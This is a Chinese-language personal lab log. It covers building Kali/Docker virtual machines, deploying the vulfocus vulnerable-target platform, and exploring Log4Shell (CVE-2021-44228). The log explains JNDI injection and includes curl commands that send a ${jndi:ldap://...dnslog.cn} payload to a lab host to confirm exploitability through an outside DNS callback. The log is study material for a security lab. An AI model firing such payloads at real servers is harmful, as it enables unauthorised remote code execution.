

# 个人开发日志-lihan3238

---

## 24.7.8: 开发环境搭建

### 日志

#### 安装 `kali-linux-2024.2-virtualbox-amd64` 虚拟机

1. 下载虚拟硬盘文件 `.vdi`

[官网下载](https://cdimage.kali.org/kali-2024.2/kali-linux-2024.2-virtualbox-amd64.7z) 最新版 `kali-linux-2024.2-virtualbox-amd64`

2. 在 `VirtualBox` 中创建虚拟机

新建虚拟机，选择 `Using an existing virtual hard disk file`，选择下载的 `kali-linux-2024.2-virtualbox-amd64.vdi` 文件。


创建虚拟机后，设置虚拟硬盘文件为 `多重加载` 以便于重复使用。
虚拟机其他配置信息如下：


3. 配置虚拟机网络

在 VirtualBox 中，创建一个 `Host-Only` 网络，设置 IPv4 网段为 `192.168.78.0/24`，启用 DHCP 服务器。

在创建好的虚拟机中，设置添加一个 `Host-Only` 网卡，选择刚刚创建的 `Host-Only` 网络，一共是两个网卡，一个是 `NAT`，一个是 `Host-Only`。

启动虚拟机后，配置 `Host-Only` 网卡 `eth1` ，编辑 `/etc/network/interfaces` 文件，添加如下配置：

```bash
auto lo
iface lo inet loopback

allow-hotplug eth0
iface eth0 inet dhcp

allow-hotplug eth1
iface eth1 inet dhcp
```
重启网络服务，使配置生效：
```bash
sudo ifdown eth1 && sudo ifup eth1
```

**严重问题** VirtualBox DHCP 服务器异常，虚拟机无法获取到 IP 地址，导致无法访问网络。


暂无解决方案，不得已转进 Vmware重新配置环境，顺便配置了 SSH 免密登录

虚拟机配置如下：

- hostname: `kalitargetserver`
- - user: `kali`
- - eth0: NAT
- - - ip: `192.168.4.129`
- - eth1: Host-Only
- - - ip: `192.168.102.129`
- host: `kaliattacker`
- - user: `kali`
- - eth0: NAT
- - - ip: `192.168.4.130`
- - eth1: Host-Only
- - - ip: `192.168.102.130`

#### 安装 Docker

```bash
sudo apt update && sudo apt install -y docker.io docker-compose jq

# 将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令
# 重新登录 shell 生效
sudo usermod -a -G docker ${USER}

# 切换到 root 用户
sudo su -

# 使用国内 Docker Hub 镜像源（可选步骤）
# 国内 Docker Hub 镜像源可用性随时可能变化，请自测可用性
cat <<EOF > /etc/docker/daemon.json
{
  "registry-mirrors": [
    "https://docker.mirrors.sjtug.sjtu.edu.cn/",
    "https://mirror.baidubce.com/",
    "https://dockerproxy.com/",
    "https://docker.chenby.cn"
  ]
}
EOF

# 重启 docker 守护进程
systemctl restart docker
```

### 问题

#### 1. Kali 虚拟机无法正常启动


- 原因：安装了 Docker，Docker 开发环境会强制开启 Hyper-V ，导致 VirtualBox 无法启动。

- 解决：打开 `开始` 菜单，搜索 `程序和功能`,选择 `启用或关闭 Windows 功能`，在列表中找到 `Hyper-V` 把前面的勾选取消并确定。这个时候已经开始卸载，卸载完毕重启电脑即可。


如果还是不行那就用命令行再进行关闭。
以管理员身份运行命令提示符
执行命令
```bash
bcdedit /set hypervisorlaunchtype off
```
重启，运行 Virtual Box 即可

**恢复hyper启动**
```bash
bcdedit / set hypervisorlaunchtype auto
```

**一劳永逸**
Windows 上安装 Docker 时，选择 `WSL2 instead of HyperV`，装在 WSL2 上就完了

#### 2. 虚拟硬盘多重加载失败


- 原因：`.vdi` 文件版本格式问题，猜测解决方案是启动虚拟机后，VirtualBox会自动更新虚拟硬盘文件的版本，从而解决了版本的问题。

- 解决：先使用该虚拟硬盘创建虚拟机，打开虚拟机，然后关闭虚拟机，再设置多重加载该虚拟硬盘文件。


#### 3. 无法使用 SSH 连接虚拟机

- 原因：`/etc/ssh/sshd_config` 文件中，服务配置被注释：
```bash
Include /etc/ssh/sshd_config.d/*.conf

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::
```

- 解决：取消注释，`sudo systemctl restart sshd` 重启服务，`sudo systemctl enable ssh&&sudo systemctl start ssh` 

### 参考

- [Docker和Virtualbox的冲突](https://lihan3238.github.io/p/point_1/)
- [配置虚拟机与虚拟硬盘](https://lihan3238.github.io/p/nschap0x01/#%E9%85%8D%E7%BD%AE%E8%99%9A%E6%8B%9F%E6%9C%BA%E4%B8%8E%E8%99%9A%E6%8B%9F%E7%A1%AC%E7%9B%98)
- [ChatGPT](https://chatgpt.com/)

---

## 24.7.9: vulfocus 和单个 **漏洞靶标攻防** 初探(log4j2 CVE-2021-44228) 

### 日志

#### `kalitargetserver` 配置 vulfocus 


1. 拉取 vulfocus 镜像

```bash
docker pull vulfocus/vulfocus:latest
```

2. 下载并使用 [快速上手 vulfocus](https://github.com/c4pr1c3/ctf-games/tree/master/fofapro/vulfocus)

- 参见 [快速上手 vulfocus](https://github.com/c4pr1c3/ctf-games/tree/master/fofapro/vulfocus)
- 账号密码：`admin/admin`



3. 下载镜像并启动漏洞靶标


#### Log4Shell 漏洞原理浅探

1. 关键词

看到一些不太熟悉的名词，先了解一下：
- [`Log4j2`](https://github.com/apache/logging-log4j2)：Apache Log4j2 是 Java 平台上的一个开源日志框架，它是 Log4j 的下一代版本，提供了更为高效且灵活的日志记录功能。
- [`反弹 Shell`](https://www.imperva.com/learn/application-security/reverse-shell/)：利用目标系统的漏洞来启动 shell 会话，然后访问受害者的计算机。目标是连接到远程计算机并重定向目标系统 shell 的输入和输出连接，以便攻击者可以远程访问它。
- [`ldap`](https://www.redhat.com/en/topics/security/what-is-ldap-authentication)：轻量级目录访问协议 (Lightweight directory access protocol) 是一种帮助用户查找有关组织、个人等的数据的协议。 LDAP 有两个主要目标：将数据存储在 LDAP 目录中并对访问该目录的用户进行身份验证。它还提供应用程序从目录服务发送和接收信息所需的通信语言。目录服务提供对网络中组织、个人和其他数据的信息所在位置的访问。
- [`JNDI`](https://stackoverflow.com/questions/4365621/what-is-jndi-what-is-its-basic-use-when-is-it-used)：Java Naming and Directory Interface 是一个应用程序编程接口(API)，它为使用 Java TM 编程语言编写的应用程序提供命名和目录功能。它被定义为独立于任何特定的目录服务实现。因此，可以通过通用方式访问各种目录（新的、新兴的和已部署的）。

2. 漏洞原理

在 [NIST](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2021-44228&vector=AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H&version=3.1&source=NIST) 网站中可以看到，按照 CVSS 3.1 的评分标准，该漏洞的评分为10分，是一个极其严重的漏洞。

在 [cloudflare](https://blog.cloudflare.com/zh-cn/inside-the-log4j2-vulnerability-cve-2021-44228-zh-cn/) 的博客中，详细介绍了该漏洞的原理和利用方式：
CVE-2021-44228 是 JNDI 注入漏洞，Log4j2 在日志记录时，支持通过 JNDI 进行查找。例如，日志消息可以包含类似 `${jndi:ldap://example.com/a}` 的字符串，Log4j 会在记录日志时尝试解析这个字符串。
LOG4J2-313 添加了如下所示的 jndi 查找：“JndiLookup 允许通过 JNDI 检索变量。默认情况下，键的前缀将是 java:comp/env/，但是，如果键包含‘:’，则不会添加前缀。”
当键中存在 : 时，如 ${jndi:ldap://example.com/a} 中那样，就不会有前缀，并且会向 LDAP 服务器查询该对象。这些查找可以在 Log4j 的配置中使用以及在记录行时使用。
所以，攻击者只需查找被记录的一些输入，然后添加诸如 ${jndi:ldap://example.com/a} 之类的内容。当 Log4j2 解析这个日志消息时，它会通过 JNDI 向指定的服务器地址发送查找请求。如果攻击者控制的服务器返回一个恶意的 Java 类，这个类会被 Log4j 加载并执行，从而实现远程代码执行（RCE）。

在 [GitHub Gist](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592) 的页面可以看到，由于Log4j广泛用于各种Java应用程序和服务，因此这个漏洞影响范围非常广泛，包括Web服务器、应用程序服务器、邮件服务器等。

#### 漏洞存在性检测

- 确认受漏洞影响组件的版本

进入漏洞靶场容器中找到 `demo.jar`，使用 `docker cp` 命令将其拷贝到本地，然后使用 `jd-gui` 工具查看其源码。


版本确实存在漏洞

#### 漏洞可利用性检测

1. 访问 [dnslog.cn](http://dnslog.cn/) 获取二级域名 `xco6xt.dnslog.cn`


2. 编码并发送 url

根据靶场容器ip和获取的二级域名，编码 url：

```bash
curl "http://192.168.4.129:53282/hello?payload=${jndi:ldap://xco6xt.dnslog.cn/lihan3238}"

#编码 `${jndi:ldap://xco6xt.dnslog.cn/lihan3238}` 
# `%24%7Bjndi%3Aldap%3A%2F%2Fxco6xt.dnslog.cn%2Flihan3238%7D`：

curl "http://192.168.4.129:53282/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2Fxco6xt.dnslog.cn%2Flihan3238%7D"
```


看到 dnslog.cn 页面有解析记录，说明漏洞可利用。

### 问题

#### 1. curl POST 请求不允许

按照原教程，使用 `curl -X POST` 发送请求，但是返回 `405 Method Not Allowed` 错误。


- 原因：靶场容器似乎不允许 POST 请求，只能使用 GET 请求
- 解决：本质上是发送一个包含关键词的 HTTP 请求，可以使用 GET 请求替代 `curl "http://192.168.4.129:26678/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2Fxco6xt.dnslog.cn%2Flihan3238%7D"`

### 参考

- [NIST](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2021-44228&vector=AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H&version=3.1&source=NIST)
- [cloudflare](https://blog.cloudflare.com/zh-cn/inside-the-log4j2-vulnerability-cve-2021-44228-zh-cn/)
- [GitHub Gist](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)

- - -

## 24.7.10:  **漏洞靶标攻防** 深入

### 日志

#### 反弹 Shell - log4j2 CVE-2021-44228

##### 红队-漏洞利用实战 

1. 

##### 蓝队-漏洞利用流量检测实战

##### 蓝队-漏洞利用防御与加固

### 问题

### 参考

- - -


